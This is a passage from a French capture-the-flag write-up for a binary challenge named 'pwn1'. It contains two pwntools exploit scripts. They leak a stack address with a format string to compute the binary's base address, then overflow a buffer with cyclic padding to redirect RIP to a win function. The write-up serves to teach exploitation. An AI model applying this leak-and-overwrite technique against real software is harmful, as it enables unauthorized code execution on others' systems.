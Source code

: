 ```python
#!/usr/bin/python2

from pwn import *

FORMATSTRING = "|%47$p|"

p = process('./pwn1')
print(p.recvuntil('name:'))
p.sendline(FORMATSTRING)
leak = p.recvuntil('spell:').split('|')

base_addr = int(leak[-2], 16)-0x36f
log.info("Adresse de base: {}".format(hex(base_addr)))

win_offset = base_addr+0x267
log.info("Adresse de la fonction win: {}".format(hex(win_offset)))

raw_input("gdb attach")
p.sendline("Expelliarmus\x00"+cyclic(0xfff)) # <-- PAYLOAD
p.interactive()
```

On place notre payload après le "raw_input()" afin de pouvoir s'attacher et process et voir où il crash.

![](/lib/images/writeups/german_fcsc/pwn//upload_cd368400aa6308cb2c4dc69eb32efbb8.png)

L'adresse situé dans le registre RIP contient en réalité une chaine de caractère "cnaacoaa". Cette chaine est le résultat de la fonction "cyclic", qui va générer une chaine d'une taille demandée unique permettant de connaitre la taille du buffer avant le crash.

Maintenant que l'on connait la taille du buffer, il est possible de contrôler RIP et ainsi pouvoir jump sur la fonction win.

```python
#!/usr/bin/python2

from pwn import *

FORMATSTRING = "|%47$p|"

p = process('./pwn1')
print(p.recvuntil('name:'))
p.sendline(FORMATSTRING)
leak = p.recvuntil('spell:').split('|')

base_addr = int(leak[-2], 16)-0x36f
log.info("Adresse de base: {}".format(hex(base_addr)))

win_offset = base_addr+0x267
log.info("Adresse de la fonction win: {}".format(hex(win_offset)))

raw_input("gdb attach")

PAYLOAD = "Expelliarmus\x00"        # <-- Secret
PAYLOAD += "A"*cyclic_find("cnaa")  # <-- PADDING
PAYLOAD += p64(win_offset)          # <-- Jump vers la fonction win

p.sendline(PAYLOAD)
p.interactive()
```
